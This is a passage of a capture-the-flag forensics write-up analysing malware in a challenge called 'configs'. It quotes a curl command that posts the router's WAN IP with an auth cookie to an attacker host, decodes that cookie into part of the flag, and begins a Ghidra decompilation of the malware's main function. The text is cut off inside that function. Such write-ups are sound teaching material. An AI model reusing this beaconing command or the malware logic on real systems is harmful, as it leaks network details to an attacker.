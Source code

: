 ```bash
/etc/init.d/firewall restart

curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimat
eav@tokyo:~/ctf/htb-university-ctf/for/configs
$
```

hmmm wait a minute that auth token looks awfully like base64 encoding lets take a look...

```sh
av@tokyo:~/ctf/htb-university-ctf/for/configs
$ echo "SFRCe1owbWIxM3NfaDR2M19pbmY"|base64 -d
HTB{Z0mb13s_h4v3_inf
av@tokyo:~/ctf/htb-university-ctf/for/configs
$
```

that looks like our flag but only a part of it we are getting closer!!!

lets look at dead_reanimated in ghidra:

main function
```C

undefined4 main(void)

{
  size_t sVar1;
  void *decrypted;
  int curl_easy_handle;
  FILE *pFVar2;
  __uid_t _Var3;
  passwd *ppVar4;
  undefined4 uVar5;
  undefined uStack_169;
  undefined4 local_168;
  undefined auStack_164 [252];
  undefined key [44];
  char CipherText [28];
  undefined4 uStack_20;
  undefined4 local_1c;
  undefined4 local_18;
  
  uStack_20._0_1_ = 'z';
  uStack_20._1_1_ = 'o';
  uStack_20._2_1_ = 'm';
  uStack_20._3_1_ = 'b';
  local_1c._0_1_ = 'i';
  local_1c._1_1_ = 'e';
  local_1c._2_1_ = '_';
  local_1c._3_1_ = 'l';
  local_18._0_1_ = 'o';
  local_18._1_1_ = 'r';
  local_18._2_1_ = 'd';
  local_18._3_1_ = '\0';
  memcpy(key,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
  memcpy(CipherText,&DAT_00400d50,0x1b);
  sVar1 = strlen(CipherText);
  decrypted = malloc(sVar1 << 2);
  init_crypto_lib(key,CipherText,decrypted);
  curl_easy_handle = curl_easy_init();
  if (curl_easy_handle == 0) {
    uVar5 = 0xfffffffe;
  }
  else {
```